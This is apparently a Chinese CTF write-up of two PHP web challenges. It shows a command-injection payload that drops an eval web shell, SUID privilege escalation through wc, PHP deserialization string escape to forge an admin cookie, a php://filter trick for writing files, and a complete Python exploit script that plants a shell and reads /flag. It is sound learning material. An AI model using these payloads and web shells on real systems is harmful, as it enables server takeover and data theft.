public function __construct($logger) {
$this->logger = $logger;
}
public function execute($input) {
if (strpos($input, ' ') !== false) {
$this->logger->log("Invalid input: space detected");
die('No spaces allowed');
}
@exec($input, $output);
$this->logger->log("Result: $input");
return implode("\n", $output);
}
}
接下来继续审计会发现有⼀个前置条件
if ($action === 'run') {
$validator = new InputValidator($this->config->get('max_input_length'));
$validationResult = $validator->validate($input);
if ($validationResult !== true) {
return $validationResult;
}
return $this->executor->execute($input);
只有当action=run的情况下才会执⾏。那这就很好构造了：
getshell
?action=run&input=echo%09PD9waHAgZXZhbCgkX1BPU1RbMF0pOz8%2b|base64%09-d%3Es
hell.php


直接蚁剑连接


尝试读取flag

打开发现什么都没有！！！！
😱😱😱
明明有大小打开却发现什么都没有
《flag失踪案》
真相只有一个🕵️
回到根目录，有一个docker的配置文件

#!/bin/sh
# Get the user
user=$(ls /home)
# Check the environment variables for the flag and assign to INSERT_FLAG
# 需要注意，以下语句会将FLAG相关传递变量进行覆盖，如果需要，请注意修改相关操作
if [ "$DASFLAG" ]; then
INSERT_FLAG="$DASFLAG"
export DASFLAG=no_FLAG
DASFLAG=no_FLAG
elif [ "$FLAG" ]; then
INSERT_FLAG="$FLAG"
export FLAG=no_FLAG
FLAG=no_FLAG
elif [ "$GZCTF_FLAG" ]; then
INSERT_FLAG="$GZCTF_FLAG"
export GZCTF_FLAG=no_FLAG
GZCTF_FLAG=no_FLAG
else
INSERT_FLAG="flag{TEST_Dynamic_FLAG}"
fi
# 将FLAG写入文件 请根据需要修改
echo $INSERT_FLAG | tee /flag
chmod 700 /flag
exec apache2-foreground
注意这一行
chmod 700 /flag
它的作用是确保只有文件所有者（如root）可读写，阻止其他用户或服务（如Apache的www-data用户）直接访问。
那就很明了了，直接提权便是
Suid提权
所谓suid就是，你本来是www-data的权限，但是当你执⾏有
suid权限的⽂件时，你会暂时拥有这⽂件所有者的权限（⽐如root）。
关于Suid提权的文章
https://xz.aliyun.com/news/11981

find / -user root -perm -4000 -print 2>/dev/null
result:
(www-data:/var/www/html) $ find / -user root -perm -4000 -print 2>/dev/nul
l
/var/www/html/wc
/bin/umount
/bin/mount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
有一个wc文件有点可疑
去找找这个文件是否能提权

可以进行提权，按照文档来做
https://gtfobins.github.io/gtfobins/wc/#suid

/var/www/html/wc --files0-from "$LFILE"

解出flag
[GHCTF 2025]Escape！
题目链接
https://www.nssctf.cn/problem/6537
题解（wp）

题目给了源码

源码🤢🤢🤢🤢！！！！
dashboard.php
<?php
ini_set('display_errors', 0);
error_reporting(0);
include "class.php";
function checkSignedCookie($cookieName = 'user_token', $secretKey = 'fake_secretkey') {
// 获取 Cookie 内容
if (isset($_COOKIE[$cookieName])) {
$token = $_COOKIE[$cookieName];
// 解码并分割数据和签名
$decodedToken = base64_decode($token);
list($serializedData, $providedSignature) = explode('|', $decodedToken);
// 重新计算签名
$calculatedSignature = hash_hmac('sha256', $serializedData, $secretKey);
// 比较签名是否一致
if ($calculatedSignature === $providedSignature) {
// 签名验证通过，返回序列化的数据
return $serializedData; // 反序列化数据
} else {
// 签名验证失败
return false;
}
}
return false; // 如果没有 Cookie
}
// 示例：验证并读取 Cookie
$userData = checkSignedCookie();
if ($userData) {
#echo $userData;
$user=unserialize($userData);
#var_dump($user);
if($user->isadmin){
$tmp=file_get_contents("tmp/admin.html");
echo $tmp;
if($_POST['txt']) {
$content = '<?php exit; ?>';
$content .= $_POST['txt'];
file_put_contents($_POST['filename'], $content);
}
}
else{
$tmp=file_get_contents("tmp/admin.html");
echo $tmp;
if($_POST['txt']||$_POST['filename']){
echo "<h1>权限不足，写入失败<h1>";
}
}
} else {
echo 'token验证失败';
}
来看这一行
$userData = checkSignedCookie();
if ($userData) {
#echo $userData;
$user=unserialize($userData);
#var_dump($user);
if($user->isadmin){
$tmp=file_get_contents("tmp/admin.html");
echo $tmp;
if($_POST['txt']) {
$content = '<?php exit; ?>';
$content .= $_POST['txt'];
file_put_contents($_POST['filename'], $content);
}
}
else{
$tmp=file_get_contents("tmp/admin.html");
echo $tmp;
if($_POST['txt']||$_POST['filename']){
echo "<h1>权限不足，写入失败<h1>";
}
这里很明显有一个文件写入的操作，只要绕过即可执行命令
但是这个文件写入又必须是admin，不然就会提示没有权限
可以知道
首先是获得session然后解密，将解密内容进行反序列话，然后调用反序列化实例的isadmin方法。首先我们不知道密钥值是多少所以无法直接通过伪造sseion来伪造admin。
查看login.php
<?php
ini_set('display_errors', 0);
error_reporting(0);
include "waf.php";
include "class.php";
include "db.php";
$username=$_POST["username"];
$password=$_POST["password"];
$SQL=new Database();
function login($db,$username,$password)
{
$data=$db->query("SELECT * FROM users WHERE username = ?",[$username]);
if(empty($data)){
die("<script>alert('用户不存在')</script><script>window.location.href = 'index.html'</script>");
}
if($data[0]['password']!==md5($password)){
die("<script>alert('密码错误')</script><script>window.location.href = 'index.html'</script>");
}
if($data[0]['username']==='admin') {
$user = new User($username, true);
}
else{
$user = new User($username, false);
}
return $user;
}
function setSignedCookie($serializedData, $cookieName = 'user_token', $secretKey = 'fake_secretKey') {
$signature = hash_hmac('sha256', $serializedData, $secretKey);
$token = base64_encode($serializedData . '|' . $signature);
setcookie($cookieName, $token, time() + 3600, "/"); // 设置有效期为1小时
}
$User=login($SQL,$username,$password);
$User_ser=waf(serialize($User));
setSignedCookie($User_ser);
header("Location: dashboard.php");
?>
可以发现在login方法中最后返回的是一个user类，
return $user;
随后再将这个类进行序列化并传入waf方法检测
然后使用setSignedCookie()方法进行加密
function setSignedCookie($serializedData, $cookieName = 'user_token', $secretKey = 'fake_secretKey') {
$signature = hash_hmac('sha256', $serializedData, $secretKey);
$token = base64_encode($serializedData . '|' . $signature);
setcookie($cookieName, $token, time() + 3600, "/"); // 设置有效期为1小时
}
再去看看waf.php
<?php
function waf($c)
{
$lists=["flag","'","\\","sleep","and","||","&&","select","union"];
foreach($lists as $list){
$c=str_replace($list,"error",$c);
}
#echo $c;
return $c;
}
字符串逃逸
- 遍历黑名单，将每个危险词替换为”error”
- 示例：输入
' UNION SELECT flag→ 输出error UNION SELECT error
这里我猜测存在非预期解
因为waf的过滤并不完整str_replace区分大小写，那是不是可以直接进行sql注入
非预期解的思路就提供到这里，有兴趣的可以去试试
字符逃逸的原理
首先我们要知道反序列的结束位置。当反序列化遇到<font style="color:rgb(244, 116, 102);">;}</font>时就会停止。注意<font style="color:rgb(244, 116, 102);">;}</font>是不能包含再字符串里的即像<font style="color:rgb(244, 116, 102);">s:5:"lll;}";}</font>前一个<font style="color:rgb(244, 116, 102);">;}</font>是字符串的第4,5个字符，这就导致了其无法将反序列提前结束。
但是如果由于waf导致字符变多或者减少这就会导致，原本应该被解析为字符的字符被解析为特殊字符，使得反序列的结果被更改。
例子
还是拿上面的函数来作为waf来解释
<?php
function black_list($str)
{
$str=preg_replace('/flag/i','hacker~',$str);
return $str;
}
class E{
public $a='flag";}';
public $b="lalalalala";
}
$a=serialize(new E());
$a=black_list($a)
上面的代码就存在字符逃逸字符增多的漏洞
我们要利用修改<font style="color:rgb(244, 116, 102);">$a</font>的值来尝试修改$b的值。
O:1:"E":2:{s:1:"a";s:7:"hacker~";};s:1:"b";s:10:"lalalalala";}
我们可以看到上面的的flag变成了<font style="color:rgb(244, 116, 102);">hacker~</font>正好和<font style="color:rgb(244, 116, 102);">flag";}</font>的长度相同那么这就导致了hacker~被识别为了字符串而<font style="color:rgb(244, 116, 102);">";}</font>被识别为了特殊字符。这就导致了反序列是遇到了<font style="color:rgb(244, 116, 102);">;}</font>提前结束。这就是waf错误的将反序列的的字符增多导致了<font style="color:rgb(244, 116, 102);">";}</font>逃逸出字符串被解析为反序列语句。
那么我们可以将<font style="color:rgb(244, 116, 102);">";}</font>进行更改更改成<font style="color:rgb(244, 116, 102);">";s:1:"b";s:10:"hahahahaha";}</font>如果这句话被逃逸就会造成反序列的结果被更改即类的属性被更改。
如果要使<font style="color:rgb(244, 116, 102);">";s:1:"b";s:13:"hhhhahahahaha";}</font>逃逸就要使pop链再被waf更改后的字符增多相同字符数。如
O:1:"E":2:{s:1:"a";s:64:"flagflagflagflagflagflagflagflag";s:1:"b";s:13:"hhhhahahahaha";}";s:1:"b";s:10:"lalalalala";}
我们传入的<font style="color:rgb(244, 116, 102);">$a</font>值为<font style="color:rgb(244, 116, 102);">flagflagflagflagflagflagflagflag";s:1:"b";s:13:"hhhhahahahaha";}</font>传入了8个flag再经过waf后变为
O:1:"E":2:{s:1:"a";s:64:"hacker~hacker~hacker~hacker~hacker~hacker~hacker~hacker~";s:1:"b";s:13:"hhhhahahahaha";}";s:1:"b";s:10:"lalalalala";}
替换后的字符正好为64个即多出来的字符数整好为需要逃逸的字符数。导致<font style="color:rgb(244, 116, 102);">";s:1:"b";s:13:"hhhhahahahaha";}</font>逃逸这就使得<font style="color:rgb(244, 116, 102);">"</font>闭合前一个引号<font style="color:rgb(244, 116, 102);">;s:1:"b";s:13:"hhhhahahahaha";}</font>被解析为反序列化链。这就使得被解析后的b变为了hhhhhahahaha而不是lalalalalala。
预期解
waf函数是对关键字进行替换，这就导致了序列化的字符数量发生了改变，从而导致了字符串逃逸。
我们想要伪造的其实是类似于如下的序列化字符，用户名无所谓，但是isadmin要为true(判断是否为管理员，因为只有管理员才有写入权限)
构建以下序列化
<?php
class User
{
public $username;
public $isadmin;
public function __construct($username,$isadmin)
{
$this->username=$username;
$this->isadmin=$isadmin;
}
}
$user = new User("zerotrace", true);
echo serialize($user);
#输出O:4:"User":2:{s:8:"username";s:9:"zerotrace";s:7:"isadmin";b:1;}
那么我们输入的username就应该是xxxxxx”;s:7:”isadmin”;b:1;}。前面的xxxxx经过waf后会变多21个从而把后面的<font style="color:rgb(244, 116, 102);">";s:7:"isadmin";b:1;}</font>逃逸出去
那么xxxx就可以是flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag。21个flag会被替换成21个error。
那么思路就很清晰了，我们注册一个字符串逃逸伪造admin的用户名如下
flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";s:7:"isadmin";b:1;}

成功伪造admin
使用伪协议写入文件
filename=php://filter/convert.base64-decode/resource=/var/www/html/1.php&txt=aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk/Pg==
蚁剑连接
也可以使用exp直接梭哈
import requests
def exp(url):
data={"username":'flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";s:7:"isadmin";b:1;}',"password":"123456"}
r=requests.post(url+"register.php",data=data)
#print(r.text)
session = requests.Session()
login_response = session.post(url+"login.php", data=data)
shell={"filename":"php://filter/convert.base64-decode/resource=/var/www/html/shell.php","txt":"aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk/Pg=="}
protected_response = session.post(url+"dashboard.php",data=shell)
response = requests.post(url+"shell.php",data={"123":"system('cat /flag');"})
print(response.text)
if __name__=="__main__":
url="http://node2.anna.nssctf.cn:28932/"
exp(url)